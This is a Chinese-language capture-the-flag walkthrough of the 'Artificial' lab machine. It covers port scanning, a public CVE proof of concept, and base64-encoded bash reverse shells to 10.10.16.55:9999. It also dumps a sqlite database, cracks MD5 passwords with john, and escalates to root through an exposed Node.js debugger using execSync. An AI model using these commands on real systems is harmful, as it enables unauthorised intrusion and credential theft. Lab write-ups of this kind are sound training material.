# Artificial #
## nmap探测 ##
#### `nmap --min-rate 5000 -p- 10.129.245.214 -oA nmap/port`


#### `nmap -sV -sC -O -A -p 22,3000 10.129.245.214 -oA nmap/detail`


#### 访问web服务


#### 对目标进行了目录爆破和子域名爆破都没有收获，查看指纹信息


#### 根据指纹信息在google和github中检索到了[CVE-2025-55182/CVE-2025-66478](https://github.com/l4rm4nd/CVE-2025-55182)

## 反弹shell ##
#### 使用poc测试


#### 构造反弹shell`/bin/bash -i >& /dev/tcp/10.10.16.55/9999 0>&1`经过测试直接反弹不成功，使用nc能反弹但是很快就会断开。需要使用base64编码`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjU1Lzk5OTkgMD4mMQ== | base64 -d | bash`




#### 在默认的目录下看到一个数据库文件


#### 在查看前需要将当前的shell升级成伪终端`python3 -c "import pty;pty.spawn('/bin/bash')"`

#### `sqlite3 reactor.db`查看数据库内容


#### 查看/etc/passwd，发现同样存在engineer用户


#### 对数据库中密码进行破解`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-MD5`


#### 使用ssh成功登录



## 提权 ##
#### 在uptime-monitor目录中发现一个worker.js，看代码像是记录3000端口应用状态的，会写入到/var/log/uptime-monitor.csv文件中


```
const http = require('http');
const fs = require('fs');

const TARGET_URL = 'http://127.0.0.1:3000/';
const CSV_FILE = '/var/log/uptime-monitor.csv';
const INTERVAL_MS = 30_000;
const TIMEOUT_MS = 10_000;

function csvEscape(value) {
    const s = String(value ?? '');
    return /[",\n]/.test(s) ? `"${s.replace(/"/g, '""')}"` : s;
}

function record({ status, latency, size, error }) {
    const row = [
        new Date().toISOString(),
        status ?? '',
        latency ?? '',
        size ?? '',
        error ?? '',
    ]
        .map(csvEscape)
        .join(',') + '\n';

    fs.appendFileSync(CSV_FILE, row);
}

function probe() {
    const start = process.hrtime.bigint();
    let bytes = 0;

    const req = http.get(TARGET_URL, { timeout: TIMEOUT_MS }, (res) => {
        res.on('data', (chunk) => {
            bytes += chunk.length;
        });

        res.on('end', () => {
            const latencyMs = Number(
                (process.hrtime.bigint() - start) / 1_000_000n
            );

            record({
                status: res.statusCode,
                latency: latencyMs,
                size: bytes,
            });
        });
    });

    req.on('error', (error) => {
        const latencyMs = Number(
            (process.hrtime.bigint() - start) / 1_000_000n
        );

        record({
            latency: latencyMs,
            error: error.code || error.message,
        });
    });

    req.on('timeout', () => {
        req.destroy();

        record({
            latency: TIMEOUT_MS,
            error: 'TIMEOUT',
        });
    });
}

setInterval(probe, INTERVAL_MS);
probe();

console.log('uptime-monitor up, pid=' + process.pid);
```


#### 查看worker.js的相关进程`ps -aux|grep worker.js`


#### 以root权限运行在9229端口上，但是namp探测的时候并没有探测到，所以需要将端口转发出来 `ssh -L 9229:localhost:9229 engineer@reactor.htb`

#### 9229端口时Node.js默认的调试端口，用通过Chrome DevTools或VSCode进行调试。
#### Chrome打开chrome://inspect，配置目标，点击inspect会打开调试工具


#### 使用Node.js进行shell反弹。直接把之前拿node用户权限的反弹shell语句复制过来就可以`var res=process.mainModule.require('chaild_process').execSync('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjU1Lzk5OTkgMD4mMQ== | base64 -d | bash');`




## 总结 ##
#### 其实提权过程并没有文中那么顺利，由于一开始忽略了worker.js导致耗了挺长时间的。后来想想Easy难度的靶场提权应该不会太复杂。于是又重新梳理发现了worker.js进程进这才算找到了突破口。